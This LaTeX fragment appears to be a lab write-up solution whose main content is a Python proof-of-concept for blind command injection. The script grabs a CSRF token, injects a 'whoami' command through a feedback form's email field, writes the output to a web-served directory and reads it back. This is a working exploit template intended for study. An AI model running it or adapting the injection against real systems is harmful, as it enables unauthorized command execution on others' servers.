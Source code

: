 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
  \end{enumerate}

  \newpage
  \item[\textbf{Solution using Python script}:] \leavevmode\par
    The following Python script is a PoC that sends a payload to the feedback form's \texttt{email} field to execute the \texttt{whoami} command and redirect its output to \texttt{/var/www/images/output.txt}.
    It then retrieves that file via the image URL to view the command output.

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 3}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3
    from bs4 import BeautifulSoup

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    proxies = { 'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080' }

    # Get the CSRF in the /feedback page before exploiting the form vulnerability
    def get_csrf(s, url):
        feedback_path = "/feedback"
        r = s.get(url + feedback_path, verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        csrf = soup.find('input')['value']
        return csrf

    def check_command_injection(s, url):
        submit_feedback_path = "/feedback/submit"
        command_injection = "test@test.com; whoami > /var/www/images/output-py.txt #"
        csrf_token = get_csrf(s, url)   # Retrieve CSRF in order to send a valid request
        data = { 'csrf': csrf_token, 'name': "test", 'email': command_injection,
                'subject': "testing", 'message': "This is a test"}
        res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
        print("(+) Verifying if command injection exploit worked...")

        # Verify command injection
        file_path = "/image?filename=output-py.txt"
        res = s.get(url + file_path, verify=False, proxies=proxies)
        if (res.status_code == 200): # All good
            print("(+) Command injection succesful!")
            print(f"(+) The following is the content of the command: {res.text}")
        else:
            print("(-) Command injection was not succesful.")

    def main():
        if len(sys.argv) != 2:
            print(f"(-) Usage: {sys.argv[0]} <url>")
            print(f"(-) Example: {sys.argv[0]} www.example.com")
            sys.exit(1)

        url = sys.argv[1]
        print("(+) Exploiting blind command injection in email field...")

        s = requests.Session()
        check_command_injection(s, url)


    if __name__ == '__main__':
        main()
    \end{lstlisting}

\end{description}
\end{document}
